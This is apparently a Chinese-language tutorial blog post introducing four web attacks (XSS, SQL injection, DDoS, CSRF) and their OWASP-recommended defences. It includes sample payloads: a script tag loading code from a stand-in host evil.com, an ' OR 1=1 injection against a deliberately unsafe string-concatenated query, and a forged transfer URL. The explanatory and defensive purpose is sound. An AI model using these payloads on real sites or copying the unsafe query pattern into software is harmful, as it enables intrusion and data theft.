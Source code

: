 搞 Web 开发离不开安全这个话题，确保网站或者网页应用的安全性，是每个开发人员都应该了解的事。本篇主要简单介绍在 Web 领域几种常见的攻击手段。

## 1. Cross Site Script（XSS， 跨站脚本攻击)

首先插播一句，为毛叫 XSS，缩写明显是 CSS 啊？没错，为了防止与我们熟悉的 CSS（Cascading Style Sheets）混淆，所以干脆更名为 XSS。

那 XSS 是什么呢？一言蔽之，XSS 就是攻击者在 Web 页面中插入恶意脚本，当用户浏览页面时，促使脚本执行，从而达到攻击目的。XSS 的特点就是想尽一切办法在目标网站上执行第三方脚本。

![](http://i.imgur.com/7lWrgbX.png)

( 图片来源：[XSS Tutorial](https://hackertarget.com/xss-tutorial/) )

举个例子。原有的网站有个将数据库中的数据显示到页面的上功能，`document.write("data from server")`。但如果服务器没有验证数据类型，直接接受任何数据时，攻击者可以会将 `<script src='http:bad-script.js'></scirpt>` 当做一个数据写入数据库。当其他用户请求这个数据时，网站原有的脚本就会执行 `document.write("<script src='http://www.evil.com/bad-script.js'></scirpt>")`，这样，便会执行 `bad-script.js`。如果攻击者在这段第三方的脚本中写入恶意脚本，那么普通用户便会受到攻击。

XSS 主要有三种类型：

- 存储型 XSS： 注入的脚本永久的存在于目标服务器上，每当受害者向服务器请求此数据时就会重新唤醒攻击脚本；
- 反射型 XSS： 当用受害者被引诱点击一个恶意链接，提交一个伪造的表单，恶意代码便会和正常返回数据一起作为响应发送到受害者的浏览器，从而骗过了浏览器，使之误以为恶意脚本来自于可信的服务器，以至于让恶意脚本得以执行。

  ![](http://i.imgur.com/ineKGTP.gif)    

  （ 图片来源： [Cross-Site Scripting (XSS)](http://hwang.cisdept.cpp.edu/swanew/Code.aspx?m=XSS) ）

- DOM 型 XSS： 有点类似于存储型 XSS，但存储型 XSS 是将恶意脚本作为数据存储在服务器中，每个调用数据的用户都会受到攻击。但 DOM 型 XSS 则是一个本地的行为，更多是本地更新 DOM 时导致了恶意脚本执行。

那么如何防御 XSS 攻击呢？

- 从客户端和服务器端双重验证所有的输入数据，这一般能阻挡大部分注入的脚本
- 对所有的数据进行适当的编码
- 设置 HTTP Header： "X-XSS-Protection: 1"


## 2. SQL Injection （SQL 注入）

所谓 SQL 注入，就是通过客户端的输入把 SQL 命令注入到一个应用的数据库中，从而得以执行恶意 SQL 语句。

先看个例子。

``` sql
uname = request.POST['username']
password = request.POST['password']

sql = "SELECT all FROM users WHERE username='" + uname + "' AND password='" + password + "'"

database.execute(sql)
```

上面这段程序直接将客户端传过来的数据写入到数据库。试想一下，如果用户传入的 `password` 值是： "password’ OR 1=1"，那么 sql 语句便会变成：

```
sql = "SELECT all FROM users WHERE username='username' AND password='password' OR 1=1"
```

那么，这句 sql 无论 `username` 和 `password` 是什么都会执行，从而将所有用户的信息取出来。

那么怎么预防 sql 的问题呢？

想要提出解决方案，先看看 sql 注入得以施行的因素：

- 网页应用使用 SQL 来控制数据库
- 用户传入的数据直接被写入数据库

根据 [OWASP](https://en.wikipedia.org/wiki/OWASP)，下面看看具体的预防措施。

- Prepared Statements (with Parameterized Queries)： 参数化的查询语句可以强制应用开发者首先定义所有的 sql 代码，之后再将每个参数传递给查询语句
- Stored Procedures： 使用语言自带的存储程序，而不是自己直接操纵数据库
- White List Input Validation： 验证用户的输入
- Escaping All User Supplied Input： 对用户提供的所有的输入都进行编码

## 3. Distributed Denial of Service （DDoS， 分布式拒绝服务）

DoS 攻击就是通过大量恶意流量占用带宽和计算资源以达到瘫痪对方网络的目的。

举个简单的例子，老郑家面馆生意红火，突然有一天一群小混混进了点，霸占了座位，只闲聊不点菜，结果坐在店里的人不吃面，想吃面的人进不来，导致老郑无法向正常客户服务。

而 DDoS 攻击就是将多个计算机联合起来一同向目标发起攻击，从而成倍地提高拒绝服务攻击的威力。

![](http://i.imgur.com/3LQAriN.png)

（图片来源于： [DDoSCoin - An Incentive to Launch DDoS Attacks?](http://www.bleepingcomputer.com/news/security/ddoscoin-an-incentive-to-launch-ddos-attacks/)）

一般 DDoS 攻击有两个目的：

- 敲诈勒索，逼你花钱买平安
- 打击竞争对手

在技术角度上，DDoS攻击可以针对网络通讯协议的各层，手段大致有：TCP类的SYN Flood、ACK Flood，UDP类的Fraggle、Trinoo，DNS Query Flood，ICMP Flood，Slowloris类、各种社工方式等等，这些技术这里不做详细解释。但是一般会根据攻击目标的情况，针对性的把技术手法混合，以达到最低的成本最难防御的目的，并且可以进行合理的节奏控制，以及隐藏保护攻击资源。

阿里巴巴的安全团队在实战中发现，DDoS 防御产品的核心是检测技术和清洗技术。检测技术就是检测网站是否正在遭受 DDoS 攻击，而清洗技术就是清洗掉异常流量。而检测技术的核心在于对业务深刻的理解，才能快速精确判断出是否真的发生了 DDoS 攻击。清洗技术对检测来讲，不同的业务场景下要求的粒度不一样。

## 4. Cross Site Request Forgery (CSRF， 跨站请求伪造)

简单来说，CSRF 就是网站 A 对用户建立信任关系后，在网站 B 上利用这种信任关系，跨站点向网站 A 发起一些伪造的用户操作请求，以达到攻击的目的。

举个例子。网站 A 是一家银行的网站，一个转账接口是 "http://www.bankA.com/transfer?toID=12345678&cash=1000"。toID 表示转账的目标账户，cash 表示转账数目。当然这个接口没法随便调用，只有在已经验证的情况下才能够被调用。

此时，攻击者建立了一个 B 网站，里面放了一段隐藏的代码，用来调用转账的接口。当受害者先成功登录了 A 网站，短时间内不需要再次验证，这个时候又访问了网站 B，B 里面隐藏的恶意代码就能够成功执行。

那怎么预防 CSRF 攻击呢？[OWASP](https://en.wikipedia.org/wiki/OWASP) 推荐了两种检查方式来作为防御手段。

- 检查标准头部，确认请求是否同源： 检查 source origin 和 target origin，然后比较两个值是否匹配
- 检查 CSRF Token： 主要有四种推荐的方式
  - Synchronizer Tokens： 在表单里隐藏一个随机变化的 token，每当用户提交表单时，将这个 token 提交到后台进行验证，如果验证通过则可以继续执行操作。这种情况有效的主要原因是网站 B 拿不到网站 A 表单里的 token;
  - Double Cookie Defense： 当向服务器发出请求时，生成一个随机值，将这个随机值既放在 cookie 中，也放在请求的参数中，服务器同时验证这两个值是否匹配；
  - Encrypted Token Pattern： 对 token 进行加密
  - Custom Header： 使用自定义请求头部，这个方式依赖于同源策略。其中最适合的自定义头部便是： "X-Requested-With: XMLHttpRequest"



参考：

1. [Cross-site scripting -- MDN](https://developer.mozilla.org/en-US/docs/Glossary/Cross-site_scripting)
2. [XSS Tutorial](https://hackertarget.com/xss-tutorial/)
3. 微信公众号【给产品经理讲技术】 -- Web安全之CSRF攻击
4. [Cross-Site Request Forgery (CSRF) Prevention Cheat Sheet](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)_Prevention_Cheat_Sheet)
5. [SQL Injection (SQLi)](http://www.acunetix.com/websitesecurity/sql-injection/)
6. [SQL Injection](https://www.owasp.org/index.php/SQL_Injection)
7. [SQL Injection Prevention Cheat Sheet](https://www.owasp.org/index.php/SQL_Injection_Prevention_Cheat_Sheet)
8. [DDoS，并没有想象中那么可怕](http://mp.weixin.qq.com/s?src=3&timestamp=1474965332&ver=1&signature=6ul**cPZ8ItdVuKUYDetdNVAyXa850UO7rhk8JBc5hv-SCsyHbogXnwcexXxhdLfsKw6g-mObWpS918kuWsPPCqR5vpbf2uC-2pesI79kGz3x1V9-*GmKGoC1IIodcTq9w8Z8ffmnSoxO6vw6d8IOQ==)
9. [互联网黑市分析：DDoS 启示录](http://mp.weixin.qq.com/s?src=3&timestamp=1474965332&ver=1&signature=ZK3-GqR3AKnum58MPSRUUtuDpZ5ykn8WLvTgI4sddP5Rtga8QKS7fwWm9Yz7PUki0I0V5ZhJijD2xbnh2oidcZ6FGHa94xV9jmWV6EdLEfHI1ol3KRXqlL9fr-aU1ZWSHuCB8b7896MIziROxFbJOA==)
10. [DDoS，网络安全世界里的暗黑杀手](http://mp.weixin.qq.com/s?src=3&timestamp=1475024663&ver=1&signature=rI*ApZSTzdk20BrHyMgaF9eKgT77oadaMtoePyV-BXLh06DIGknOaNgwXcDbVe-zgDhG2kva33aPeaiSNkVTye3IEUXM7*55l5JNjWXo7VhMS7TQJfEkoHEBwixtivlwRuI2TX117I-YIUxCDY7KlA==)
